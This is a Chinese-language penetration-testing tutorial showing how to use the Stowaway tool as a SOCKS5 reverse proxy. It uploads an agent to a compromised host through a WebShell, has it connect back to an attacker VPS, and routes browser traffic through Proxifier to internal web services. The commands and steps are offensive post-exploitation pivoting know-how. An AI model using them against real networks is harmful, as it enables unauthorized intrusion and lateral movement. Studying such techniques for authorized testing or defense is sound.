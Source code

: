 ### Stowaway Socks5 反向代理（可出网）

[下载工具](https://github.com/ph4ntonn/Stowaway/releases)

上传 linux_x64_admin 到 VPS 上

```sh
./linux_x64_admin -l 6565 -s 123456

# -l 监听端口
# -s 通信密钥
```

![](https://pic1.imgdb.cn/item/68ccf979c5157e1a881a8973.png)

通过 WebShell 上传 agent.exe 到目标主机，并运行

![](https://pic1.imgdb.cn/item/68ccf963c5157e1a881a886d.png)

运行访问 VPS

```
windows_x64_agent.exe -c VPS:6565 -s 123456
```

成功连接，ID 是 0

![](https://pic1.imgdb.cn/item/68cd0000c5157e1a881af32c.png)

查看帮助

![](https://pic1.imgdb.cn/item/68cd002ec5157e1a881af5db.png)

使用刚刚连接的节点

```
use 0
```

![](https://pic1.imgdb.cn/item/68cd0095c5157e1a881afaca.png)

查看帮助

![](https://pic1.imgdb.cn/item/68cd00cfc5157e1a881afff1.png)

设置 socks5 代理

```
socks 7789
```

![](https://pic1.imgdb.cn/item/68cd0100c5157e1a881b04d1.png)

打开 Proxifier.exe，添加代理服务器

![](https://pic1.imgdb.cn/item/68cd022dc5157e1a881b18b3.png)

IP 填 VPS 的，端口填 7789

![](https://pic1.imgdb.cn/item/68cd025fc5157e1a881b1b10.png)

添加规则

![](https://pic1.imgdb.cn/item/68cd0328c5157e1a881b24bb.png)

谷歌浏览器位置查找

![](https://pic1.imgdb.cn/item/68cd4c05c5157e1a881d3f33.png)

访问内网中的 Web 服务

![](https://pic1.imgdb.cn/item/68cd4d73c5157e1a881d4069.png)

![](https://pic1.imgdb.cn/item/68cd4e19c5157e1a881d4134.png)

在代理浏览器中可以看到我们走的流量

![](https://pic1.imgdb.cn/item/68cd4e8dc5157e1a881d416e.png)

画了个草图

![](https://pic1.imgdb.cn/item/68cd5177c5157e1a881d42e6.png)
